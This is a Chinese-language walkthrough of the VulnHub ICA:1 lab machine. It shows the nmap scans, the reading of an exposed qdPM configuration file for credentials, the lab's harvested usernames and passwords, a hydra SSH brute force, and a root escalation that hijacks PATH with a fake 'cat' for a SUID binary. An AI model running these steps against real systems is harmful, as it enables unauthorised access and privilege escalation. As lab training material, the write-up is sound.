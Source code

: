 

> 下载地址：[**Download (Mirror)**](https://download.vulnhub.com/ica/ica1.zip)
>

### 信息收集

#### 主机发现

```bash
nmap.exe  -sn 192.168.8.0/24
```



![image-20231031201120021](./imgs/image-20231031201120021.png)

#### 端口扫描

```bash
 nmap -sS -p- 192.168.8.28
```

![image-20231031201919700](./imgs/image-20231031201919700.png)

访问80端口，查找历史版本漏洞

![image-20231031210138793](./imgs/image-20231031210138793.png)



![image-20231031202201404](./imgs/image-20231031202201404.png)

找到`50176.txt`位置，查看

![image-20231031203357084](./imgs/image-20231031203357084.png)

得出，需要访问：`http://192.168.8.28/core/config/databases.yml`d

![image-20231031204232373](./imgs/image-20231031204232373.png)

> username: qdpmadmin
>
>  password: UcVQCMQk2STVeS6J

![image-20231031205255004](./imgs/image-20231031205255004.png)

密码通过`base64解密`

![image-20231031205640687](./imgs/image-20231031205640687.png)

> **用户名：**
>
> smith
>
> lucas 
>
> travis
>
> dexter
>
> meyer
>
> 
>
> **密码：**
>
> suRJAdGwLp8dy3rF
>
> 7ZwV4qtg42cmUXGX
>
> X7MQkP3W29fewHdC
>
> DJceVy98W28Y7wLg
>
> cqNnBWCByS2DuJSy
>
> 将密码和 用户保存在两个文件里

### 漏洞利用

#### SSH爆破

```bash
 hydra.exe -L .\user.txt -P .\passwd.txt ssh://192.168.8.28
```



![image-20231031210039175](./imgs/image-20231031210039175.png)

#### suid提权

```bash
find / -perm -u=s 2>/dev/null
```

查看`/opt/get_access`发现乱码

使用`strings`提权其中 的字符串信息 

````bash
strings /opt/get_access
````

发现`cat`

给`cat`赋予执行权限

```
echo "/bin/bash" > /tmp/cat
export PATH=/tmp:$PATH
chmod +x /tmp/cat
```

提权

```bash
cd /opt
./get_access
```

拿到`root`密码

使用`su`命令字切换用户，提权成功~

